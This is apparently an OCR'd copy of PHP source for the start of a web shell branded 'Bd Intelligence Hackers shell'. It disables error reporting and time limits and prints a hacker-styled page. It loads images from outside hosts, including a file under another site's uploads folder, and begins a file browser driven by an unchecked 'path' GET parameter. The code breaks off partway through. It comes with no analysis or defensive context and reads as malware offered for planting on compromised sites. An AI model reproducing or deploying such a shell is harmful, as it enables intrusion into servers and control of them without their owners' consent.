 <?php
set_time_limit(0);
error_reporting(0);

if(get_magic_quotes_gpc()){
foreach($_POST as $key=>$value){
$_POST[$key] = stripslashes($value);
}
}
echo '<!DOCTYPE HTML>
<HTML>
<HEAD>
<link href="" rel="stylesheet" type="text/css">
<title>BIH Shell</title>
<style>
body{
font-family: "console", cursive;
background-color: #000000;
text-shadow:0px 0px 1px #FFFFFF
}
#content tr:hover{
background-color: #FFFFFF;
text-shadow:0px 0px 10px #FF0000;
}
#content .first{
background-color: silver;
}
#content .first:hover{
background-color: silver;
text-shadow:0px 0px 1px #0000FF;
}
table{
border: 1px #FFFFFF dotted;
}
H1{
font-family: "Rye", cursive;
}
a{
color: #ff0000;
text-decoration: none;
}
a:hover{
color: #FFFFFF;
text-shadow:0px 0px 10px #ffffff;
}
input,select,textarea{
border: 2px #FF0000 solid;
-moz-border-radius: 5px;
-webkit-border-radius:5px;
border-radius:5px;
}
</style>
</HEAD>
<BODY>
<center><img src="https://a.top4top.net/p_1057szjxy1.png"></center>
<h2><center><font color="red">Bd Intelligence Hackers shell</font></center></h2>
<body background="http://busainofruits.com/php/uploads/1516465029.jpg">
<table width="700" border="0" cellpadding="3" cellspacing="1" align="center">
<tr><td>Current Path : ';
if(isset($_GET['path'])){
$path = $_GET['path'];
}else{
$path = getcwd();